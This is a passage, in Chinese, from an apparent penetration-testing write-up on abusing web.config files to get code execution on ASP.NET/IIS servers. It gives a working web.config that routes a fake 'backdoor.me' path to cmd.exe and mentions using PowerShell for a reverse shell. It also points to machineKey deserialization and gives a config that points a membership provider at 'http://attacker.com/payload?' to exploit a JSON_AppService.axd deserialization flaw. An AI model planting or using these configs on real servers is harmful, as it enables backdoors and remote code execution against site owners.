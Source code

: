 #### 1.2 使用 AspNetCoreModule 运行命令

我们也可以使用 ASP.NET 核心模块运行命令，如下所示：

```plain
<?xml version="1.0" encoding="utf-8"?>
<configuration>
    <system.webServer>
      <handlers>
        <remove name="aspNetCore" />
         <add name="aspNetCore" path="backdoor.me" verb="*" modules="AspNetCoreModule" resourceType="Unspecified" />
      </handlers>
      <aspNetCore processPath="cmd.exe" arguments="/c calc"/>
    </system.webServer>
</configuration>
```

所述命令将通过浏览不需要存在于服务器上的`backdoor.me`页面来执行，这里可以使用`PowerShell`命令作为反向`shell`。

#### 1.3 使用系统秘钥

[https://soroush.secproject.com/blog/2019/04/exploiting-deserialisation-in-asp-net-via-viewstate/中所述，可以在\`web.config\`文件中设置\`machineKey\`元素，以滥用反序列化功能在服务器上运行代码和命令。](https://soroush.secproject.com/blog/2019/04/exploiting-deserialisation-in-asp-net-via-viewstate/%E4%B8%AD%E6%89%80%E8%BF%B0%EF%BC%8C%E5%8F%AF%E4%BB%A5%E5%9C%A8%60web.config%60%E6%96%87%E4%BB%B6%E4%B8%AD%E8%AE%BE%E7%BD%AE%60machineKey%60%E5%85%83%E7%B4%A0%EF%BC%8C%E4%BB%A5%E6%BB%A5%E7%94%A8%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%8A%9F%E8%83%BD%E5%9C%A8%E6%9C%8D%E5%8A%A1%E5%99%A8%E4%B8%8A%E8%BF%90%E8%A1%8C%E4%BB%A3%E7%A0%81%E5%92%8C%E5%91%BD%E4%BB%A4%E3%80%82)

#### 1.4 使用 JSON\_AppService.axd

这是在`.NET Framework`中使用已知的反序列化问题在服务器上运行代码的一种方式。

在这种情况下，`web.config`文件如下所示：

```plain
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.web.extensions>
        <scripting>
            <webServices>
                <authenticationService enabled="true" requireSSL="false" />  
            </webServices>
        </scripting>
    </system.web.extensions>

    <appSettings>
        <add key="aspnet:UseLegacyClientServicesJsonHandling" value="true" />
    </appSettings>

    <system.web>
        <membership defaultProvider="ClientAuthenticationMembershipProvider">
            <providers>
                <add name="ClientAuthenticationMembershipProvider" type="System.Web.ClientServices.Providers.ClientFormsAuthenticationMembershipProvider, System.Web.Extensions, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35" serviceUri="http://attacker.com/payload?" />
            </providers>
        </membership>
    </system.web>
</configuration>
```
